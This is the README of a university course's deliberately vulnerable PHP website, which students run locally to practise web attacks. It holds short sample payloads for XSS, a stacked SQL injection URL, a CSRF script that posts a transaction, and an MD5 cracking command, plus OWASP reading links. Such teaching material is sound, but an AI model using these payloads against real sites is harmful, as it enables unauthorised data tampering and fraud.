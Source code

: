 # Base website security demo
- designed for students of [KIV/WEB](https://courseware.zcu.cz/portal/studium/courseware/kiv/web) of [University of West Bohemia](http://www.zcu.cz/en/)

## development
### Installation
1. [Install Docker](https://docs.docker.com/engine/installation/)
1. [Install Docker Compose](https://docs.docker.com/compose/install/)
1. Clone this repository `git clone https://github.com/intraworlds/zcu-security-demo.git`
1. Install dependencies with [Composer](https://getcomposer.org) `composer install`

### Run
1. run `docker-compose up -d` and you access the website
 - **app**:`localhost:8088`
  - login: `willis.ritchie@example.com`:`richie`
 - **adminer**:`localhost:8086`

### Simulate attacks
#### XSS
- create new transaction
- as description insert `<script>alert('XSS attack');</script>`
#### SQL injection
- go to `http://localhost:8088/?path=list&limit=50;update%20users%20set%20name=%27Anonymous%27;`
#### CSRF
- need also XSS
- create new transaction
- add description insert

#### Weak hash algorithm
try use `hashcat`
```
php scripts/crack_md5_hash.php 75b71aa6842e450f12aca00fdf54c51d
```

```
<script>
$.post({
    url:'index.php',
    data:'receiver=1&amount=10&desc=attack&submit=create'
}).done(function(data) {
    console.log('Attack was successful');
});
</script>
```

### Docker tips
Show all running containers
```
docker-compose ps
```
See logs
```
docker-compsoe logs -f
```
Connect container
```
docker-compose exec apache bash -l
```

## attacks

- [Full list of attacks](https://www.owasp.org/index.php/Category:Attack)

### XSS (Cross-site Scripting)
 - [OWASP XSS](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS))
 - [OWASP testing for XSS](https://www.owasp.org/index.php/Testing_for_Cross_site_scripting)
 - [PHP triky: Cross Site Scripting](https://php.vrana.cz/cross-site-scripting.php) (czech only)

HTTP Headers
 - [X-XSS-Protection](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-XSS-Protection)
 - [Content-Security-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)


### SQL injection
 - [OWASP SQL injection](https://www.owasp.org/index.php/SQL_Injection)
 - [Soom: SQL Injection (Full Paper)](https://www.soom.cz/clanky/1180--SQL-Injection-Full-Paper#sekce5) (czech only)
 - [PHP triky: Obrana proti SQL Injection](https://php.vrana.cz/obrana-proti-sql-injection.php) (czech only)


### CSFR (Cross-Site Request Forgery)
 - [OWASP CSFR](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF))
 - [Soom](https://www.soom.cz/clanky/484--Cross-Site-Request-Forgery) (czech only)
 - [PHP triky: Cross-Site Request Forgery](https://php.vrana.cz/cross-site-request-forgery.php) (czech only)
 - [Co je Cross-Site Request Forgery a jak se mu bránit](https://www.zdrojak.cz/clanky/co-je-cross-site-request-forgery-a-jak-se-branit/) (czech only)

### Path (Directory) Traversal
 - [OWASP Path Traversal](https://www.owasp.org/index.php/Path_Traversal)
